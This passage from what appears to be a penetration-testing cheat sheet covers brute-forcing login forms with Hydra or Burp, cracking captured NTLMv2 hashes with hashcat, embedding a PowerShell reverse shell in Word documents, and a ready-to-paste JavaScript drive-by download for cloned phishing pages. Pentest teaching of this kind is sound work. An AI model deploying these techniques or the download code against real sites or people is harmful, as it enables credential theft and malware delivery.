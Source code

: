 Such keywords can include a company name, abbreviations, or words that describe the company's services, products, etc.

After you generated the wordlist, use it with tools such as [Hydra](#hydra), [Burp Suite Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder), etc., to brute force login web forms. Hydra can attack authentication mechanisms for all kinds of services and ports.

If strong password policy is enforced, lazy passwords usually start with one capitalized word followed by a few digits and one special character at the end (e.g., Password123!).

You can also use the generated wordlist with [hashcat](#hashcat), e.g., to crack NTLMv2 hashes that you have collected using LLMNR responder during a network penetration testing, etc.

## 6. Social Engineering

Find out how to embed a PowerShell script into an MS Word document at [ivan-sincek/powershell-reverse-tcp](https://github.com/ivan-sincek/powershell-reverse-tcp#ms-word).

### Drive-by Download

To force users to download a malicious file, copy and paste this JavaScript code block on any cloned web page:

```javascript
function download(url, type, name, method) {
	var req = new XMLHttpRequest();
	req.open(method, url, true);
	req.responseType = 'blob';
	req.onload = function() {
		var blob = new Blob([req.response], { type: type })
		var isIE = false || !!document.documentMode;
		if (isIE) {
			// IE doesn't allow using a blob object directly as link
			// instead it is necessary to use msSaveOrOpenBlob()
			if (window.navigator && window.navigator.msSaveOrOpenBlob) {
				window.navigator.msSaveOrOpenBlob(blob, name);
			}
		} else {
			var anchor = document.createElement('a');
			anchor.href = window.URL.createObjectURL(blob);
			anchor.download = name;
			anchor.click();
			// in Firefox it is necessary to delay revoking the ObjectURL
			setTimeout(function() {
				window.URL.revokeObjectURL(anchor);
				anchor.remove();
			}, 250);
		}
	};
	req.send();
}
// specify your file here, use only an absolute URL
download('http://localhost/files/pentest.pdf', 'application/pdf', 'pentest.pdf', 'GET');
// download('http://localhost/files/pentest.docx', 'plain/txt', 'pentest.docx', 'GET');
```
